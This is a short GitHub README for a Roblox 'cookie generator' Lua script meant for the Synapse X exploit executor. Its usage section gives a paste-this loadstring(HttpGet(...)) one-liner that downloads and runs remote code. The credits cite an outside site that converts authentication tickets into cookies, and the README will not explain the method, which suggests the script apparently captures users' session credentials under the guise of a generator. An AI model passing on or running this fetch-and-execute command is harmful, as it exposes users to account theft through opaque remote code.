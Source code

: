 # Cookie gen 🍔
Read LICENSE before using.

Fully proxyless cookie generator test

(You can only generate 3, it's just a demo)
## Supported exploits
Synapse X
## How to use
Run the [script in the repository](https://raw.githubusercontent.com/websinkwastaken/cookie-gen/main/cg.lua)
Or, use the loadstring:

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/websinkwastaken/cookie-gen/main/cg.lua",true))()
```

Press F9 to see how many cookies are left to generate.

When it's done the cookies will show up in the console.

# Credits 🍕
[CJ](http://cjthebongocat.xyz), for hosting an authentication ticket to cookie converter

You, For checking this out :D


Note:

my method of generating cookies is so smart you wouldn't even understand it, Don't ask.
